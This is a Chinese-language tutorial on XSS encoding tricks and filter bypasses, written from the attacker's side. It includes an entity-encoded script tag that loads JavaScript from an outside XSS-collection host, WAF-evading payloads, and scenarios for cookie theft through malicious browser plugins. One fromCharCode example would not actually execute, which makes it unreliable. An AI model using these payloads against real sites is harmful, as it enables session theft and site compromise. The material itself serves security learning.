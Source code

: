 # XSS编码与绕过

![](/attackUsers/xss/image/xss-17.png)

---

## 01. URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。

URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

这个在编码DOM XSS可能会用到，比如我上次说的`<<XSS分类与漏洞挖掘>>`0×04节DOM XSS 在chrome maxthon firefox里对URL里的a=后面的字节进行了URL进行编码，只能在360浏览器里成功，这就是浏览器对URL进行了URL编码。

## 02. unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。

Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

## 03. HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

例如：
```html
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

可以正常显示。

但是当你把src或者img进行html编码就不行了

例如：
```html
img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

## 04. CSS编码
这个不是太常用。就是/斜杠加上1-6位十六进制

之前在IE5之前都可以用expression来调用js时，这个编码很有用。 现在大多都是用于CSS小图标。

## 05. 假设
网站检测script标签里的src值是否为网站(关键字有`http&https&com&cn&net&&js`)

那我们该怎么绕过呢，看下面的实例代码：

```html
<script
src="&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#56;&#46;&#112;&#119;&#47;&#98;&#103;&#70;&#102;&#66;&#120;&#63;&#49;&#52;&#49;&#57;&#50;&#50;&#57;&#53;&#54;&#53;"></script>

```

打开审查元素——网络，我们成功的看到了我们的JS被加载了

![](/attackUsers/xss/image/xss-37.png)

XSS平台里也获取到了。

## 05. 常见的绕过方式

```html
<sCrIpt>alert(1)</script>

<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>

<scr<script>rip>alalertert</scr</script>rip> (需要利用waf的不完整性)


//后面会讲
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

```

```html
标签属性`="javascript:JS代码"`(只对支持js伪协议的属性起作用)

```

```html
<标签 on事件="js代码">
```

```html
<script
woaini>
alert(123)
</script
woaini>
```

浏览器下会把换行 TAB符当成空格，把后面的字符当做属性来解析

## 06. 插件安全
即使你网站做的再安全，WAF再怎么完整。我利用插件照样可以绕过。插件的有它的特殊性，也是这个特殊性成就了他的安全问题，那就是“跨域”。

** 我在里说下插件是如何渲染到页面的： **
> 用户打开网站——发送数据包——服务器响应并发送Response包——浏览器收到Response包——渲染(先渲染Response包，再渲染插件的代码)

** 也就是说我在插件里写了一段js，那么用户安装后，凡是打开网站。浏览器渲染后，就可以获取用户的cookies。如果攻击者事先有准备，还可以利用csrf攻击。 **这里我们大胆假设下：

** 假设1： **攻击者把XSS代码封装到插件里，上传到浏览器插件下载网站(管理不严，管理员根本不可能一行一行代码看)，上传成功后。用户下载，并安装。那么攻击者就可以坐在电脑前，喝着咖啡，看着不断刷新的xss数据流…

** 假设2： **攻击者拥有dedecms的csrf(可以添加管理员)，后面的和假设1一样。当网站管理员不小心安装或者使用了带有插件浏览器，网站就会被攻击者控制。有些人会问，几率那么小，怎么可能跑到我身上。是不太可能跑到你身上，倒是有可能跑到其他站长身上，当你想想中国站长有多少时，相信你就会明白了

** 假设3： **攻击者拥有某个浏览器插件的XSC漏洞，再结合插件安全问题，就可以实现用户打开某个网站，就会被不知不觉中安装插件，有些人会说，有XSC我就直接执行任意代码了，谁还蛋疼式的去安装插件。如果攻击者想隐蔽式的攻击呢？而且控制电脑获取cookies我想这个应该比直接安装插件更加麻烦吧？当然攻击者也可以两个同时进行。

当然了，也有很多人会说，我安装安全健康绿色无污染的插件不就不怕了吗。

楼主说的十分有理，只不过你忽视了插件本身的安全问题，我之前所说的都是利用插件的特殊性来完成攻击，可是我并没有说插件本身的安全。

这时恐怕又有人质疑了，插件即使不安全，那也需要用户输入特殊的字符串里完成攻击，你这不就是在自己插自己么。

我所说的插件安全问题指的不是这，而是控制插件的数据流。因为插件的安全问题本身就没多大的利用价值，大多数时候都是自己插自己。

假设有一个在线翻译的插件，鼠标滑词，自动翻译。而这个技术就需要利用到AJAX，而AJAX利用的就是厂商提供的API，而API很多时候都在二级域名，安全性相对来说就比较低了。如果控制API了，那么就可以控制API发送给插件的数据流，从而达到攻击。

** 流程图就是下面这样： **
> 黑客发现插件调取的API网站安全漏洞——重写了发送的数据包——插件获取被重写API数据——解析并把恶意代码渲染到页面——攻击成功。

当然了，不止API，有的插件还调用了外部的JS、CSS、iframe(HTML)等，我们也可以控制他们里来完成攻击。

## 07. 绕过 magic_quotes_gpc
** magic_quotes_gpc=ON **是php中的安全设置，开启后会把一些特殊字符进行轮换，比如`'`(单引号)转换为`\'`，`"`(双引号)转换为`\"` ，`\`转换为`\\`

比如：`<script>alert("xss");</script>`会转换为`<script>alert(\"xss\");</script>`,这样我们的xss就不生效了。

针对开启了`magic_quotes_gpc`的网站，我们可以通过javascript中的`String.fromCharCode`方法来绕过，我们可以把`alert("XSS");`转换为

```html
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)
```

那么我们的XSS语句就变成了

```html
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 
```

`String.fromCharCode()`是javascript中的字符串方法，用来把ASCII转换为字符串。

如何转换ASCII码呢？

我们可以使用[hackbar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/
) 来搞定

![](/attackUsers/xss/image/xss-01.jpg)

![](/attackUsers/xss/image/xss-02.jpg)

![](/attackUsers/xss/image/xss-03.jpg)

最后使用`<script>转换后的放到这里</script>`包含即可。

## 08. 关闭标签
有时我们需要关闭标签来使我们的XSS生效，如：

```html
"><script>alert("Hi");</script>
```